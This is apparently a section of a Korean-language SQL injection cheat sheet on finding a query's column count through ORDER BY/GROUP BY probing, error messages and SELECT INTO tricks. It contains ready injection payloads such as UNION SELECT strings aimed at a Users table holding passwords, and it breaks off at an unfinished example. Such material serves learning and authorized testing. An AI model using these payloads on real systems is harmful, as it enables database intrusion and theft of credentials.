 

## (9) 테이블과 컬럼

**① 컬럼 수 결정**<br><br>

ⓐ Order/Group By<br><br>

GROUP/ORDER BY n+1<br><br>

노트 :<br>
거짓 결과값이 출력될 때까지 번호를 계속 증가시킴.<br>
GROUP BY 와 ORDER BY 는 SQL 에서 다른 기능을 가지고 있지만 정확히 같은 방식으로 쿼리 수를 결정할 수 있음.<br><br>
참고로 ORDER BY 절은 조회된 결과의 데이터들을 원하는 필드를 기준으로 정렬하여 보기 좋게 출력하는데 사용되며 GROUP BY 절은 데이터들을 작은 그룹으로 분류하여 그룹에 대한 항목별로 통계적인 정보를 얻고자 사용됨.<br><br>

예 : <br>
`주어진 쿼리 SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}';`<br><br>

1' ORDER BY 1--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br>
1' ORDER BY 2--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br>
1' ORDER BY 3--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br>
1' ORDER BY 4--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;거짓 - 쿼리는 3 개의 컬럼만 사용함.<br>
-1' UNION SELECT 1,2,3--+&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br><br>

ⓑ 에러 기반(Error Based)1<br><br>

GROUP/ORDER BY 1,2,3,4,5...<br><br>

노트 :<br>
이전 방법과 마찬가지로 에러 표시가 활성화된 경우 한번의 쿼리 요청으로 컬럼 수를 확인할 수 있음.<br><br>

예 :<br>
`주어진 쿼리 SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}'`<br><br>

`1' GROUP BY 1,2,3,4,5--+  그룹 문에서 알 수 없는 열 '4'`<br>
`1' ORDER BY 1,2,3,4,5--+  Order 절에서 알수 없는 열 '4'`<br><br>

ⓒ 에러 기반2<br><br>

SELECT ... INTO var_list, var_list1, var_list2...<br><br>

노트 :<br>
이 방법은 에러 표시가 활성화된 경우 작동함.<br>
주입 지점이 LIMIT 절 다음에 있을 때 컬럼 수를  찾는 데 유용함.<br>

예1 :<br>
`주어진 쿼리 SELECT permission FROM Users WHERE id = {INJECTION POINT};`<br><br>

`-1 UNION SELECT 1 INTO @,@,@&nbsp;&nbsp;사용된 SELECT 문은 다른 컬럼 수를 가짐.`<br>
`-1 UNION SELECT 1 INTO @,@&nbsp;&nbsp;&nbsp;&nbsp;사용된 SELECT 문은 다른 컬럼 수를 가짐.`<br>
`-1 UNION SELECT 1 INTO @&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;에러가 없다는 건 컬럼 1개를 사용함을 의미함.`<br><br>

예2 :<br>
`주어진 쿼리 SELECT username, permission FROM Users limit 1,{INJECTION POINT};`<br><br>
